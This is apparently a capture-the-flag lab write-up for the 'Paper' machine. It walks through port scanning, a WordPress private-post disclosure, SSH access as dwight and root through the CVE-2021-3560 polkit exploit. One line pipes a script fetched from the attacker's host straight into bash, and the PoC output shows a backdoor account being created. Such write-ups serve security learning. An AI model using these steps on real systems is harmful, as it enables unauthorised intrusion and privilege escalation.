




# Paper

## Nmap Scan

```bash
❯ nmap -p- --open -T5 -sS -n -Pn -vvv 10.10.11.143 -oG allPorts
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-11 15:22 -03
Initiating SYN Stealth Scan at 15:22
Scanning 10.10.11.143 [65535 ports]
Discovered open port 80/tcp on 10.10.11.143
Discovered open port 443/tcp on 10.10.11.143
Discovered open port 22/tcp on 10.10.11.143
Completed SYN Stealth Scan at 15:23, 45.08s elapsed (65535 total ports)
Nmap scan report for 10.10.11.143
Host is up, received user-set (0.16s latency).
Scanned at 2023-03-11 15:22:58 -03 for 45s
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 63
80/tcp  open  http    syn-ack ttl 63
443/tcp open  https   syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 45.16 seconds
           Raw packets sent: 75129 (3.306MB) | Rcvd: 73730 (2.949MB)
```

```bash
❯ nmap -p22,80,443 -sCV 10.10.11.143 -oN Targeted
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-11 15:24 -03
Nmap scan report for 10.10.11.143
Host is up (0.16s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 1005ea5056a600cb1c9c93df5f83e064 (RSA)
|   256 588c821cc6632a83875c2f2b4f4dc379 (ECDSA)
|_  256 3178afd13bc42e9d604eeb5d03eca022 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
| http-methods: 
|_  Potentially risky methods: TRACE
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.74 seconds
```

I'll use `whatweb` to see which technologies are being used.

```bash
❯ whatweb 10.10.11.143
http://10.10.11.143 [403 Forbidden] Apache[2.4.37][mod_fcgid/2.3.9], Country[RESERVED][ZZ], X-Backend[office.paper]
```

We can see a domain called *office.paper*.

```bash
❯ echo '10.10.11.143 office.paper' >> /etc/hosts
```

```bash
❯ whatweb office.paper
http://office.paper [snip] WordPress[5.2.3] [snip]
```

Old version of WordPress.

```bash
❯ searchsploit wordpress 5.2.3 Core
WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts                                                                                 | multiple/webapps/47690.md
```

<center></center>

Checking the exploit, we can see some content in this URL: *http://office.paper/?static=1&order=desc

<center></center>

After the registration, we can chat to **recyclops**, and ask for some things.

## Shell as Dwight

<center></center>

<center></center>

The password is correct for the user *dwight* via **ssh**.

```bash
[dwight@paper ~]$ cat user.txt 
4832e395fec************
```

## Shell as Root

I'll run `linpeas` in the victim machine.

```bash
❯ curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh

❯ python3 -m http.server 80

[dwight@paper tmp]$ curl http://10.10.14.14/linpeas.sh | bash
```

There is a CVE to escalate privileges.

```python
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-3560
```

I'll be use this[Exploit](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/blob/main/poc.sh).

```bash
[dwight@paper tmp] ./poc.sh 
[!] Username set as : secnigma

[dwight@paper tmp] su secnigma
Password: secnigmaftw

[secnigma@paper tmp] sudo su

[root@paper tmp] cat /root/root.txt
18r2e5y5fe0************
```

Thanks for reading!

